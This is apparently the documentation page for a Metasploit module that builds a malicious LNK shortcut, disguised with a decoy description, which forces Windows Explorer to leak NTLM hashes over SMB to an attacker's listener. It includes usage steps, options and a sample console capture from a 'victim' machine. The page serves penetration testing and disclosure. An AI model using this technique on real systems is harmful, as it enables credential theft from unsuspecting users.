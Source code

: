 ## Vulnerable Application

Windows systems using Explorer to browse directories with LNK files, where the IconEnvironmentDataBlock can force SMB authentication leaks.

References:
- [Right-Click LNK](https://zeifan.my/Right-Click-LNK/)

Disclosure Date: 2025-05-16.

## Verification Steps

1. Start msfconsole.
1. Load the module: `use auxiliary/fileformat/iconenvironmentdatablock_lnk`.
1. Set options like FILENAME, or others as needed.
1. Execute the module: `run`.
1. A malicious LNK file is generated.
1. Place the LNK in a target directory.
1. Browse the directory in Windows Explorer to trigger the SMB connection.
1. Check the console for captured NTLM hashes.

## Options


### DESCRIPTION

Optional description for the shortcut. If unset, a random sentence is generated.

Example:
```
set DESCRIPTION System Update
```

### ICON_PATH

Optional icon path for the LNK. If unset, a random system icon path is generated.

Example:
```
set ICON_PATH %SystemRoot%\\System32\\shell32.dll
```

### PADDING_SIZE

Size of padding in the command arguments.

Default: 10

Example:
```
set PADDING_SIZE 20
```


## Scenarios

### NTLM Hash Capture via Integrated Server

Target: Windows system with Explorer.

```
msf > use auxiliary/fileformat/iconenvironmentdatablock_lnk
msf auxiliary(fileformat/iconenvironmentdatablock_lnk) > set FILENAME leak.lnk
FILENAME => leak.lnk
msf auxiliary(fileformat/iconenvironmentdatablock_lnk) > set SRVHOST 192.168.1.25
SRVHOST => 192.168.1.25
msf auxiliary(fileformat/iconenvironmentdatablock_lnk) > set DESCRIPTION Fake Shortcut
DESCRIPTION => Fake Shortcut
msf auxiliary(fileformat/iconenvironmentdatablock_lnk) > set PADDING_SIZE 15
PADDING_SIZE => 15
msf auxiliary(fileformat/iconenvironmentdatablock_lnk) > run

[*] Creating 'leak.lnk' file...
[+] LNK file created: leak.lnk
[*] Listening for hashes on 192.168.1.25:445
[*] Auxiliary module execution completed
```

Deliver `leak.lnk` to a target folder. Browsing the folder triggers an SMB connection:

```
[*] SMB Captured - 2025-09-18 21:07:00 +0530
NTLMv2 Response Captured from 192.168.1.50:49180 - 192.168.1.50
USER:victim DOMAIN:VICTIMPC OS: Windows 10 LM:
LMHASH:Disabled
LM_CLIENT_CHALLENGE:Disabled
NTHASH:samplehash
NT_CLIENT_CHALLENGE:samplechallenge
```
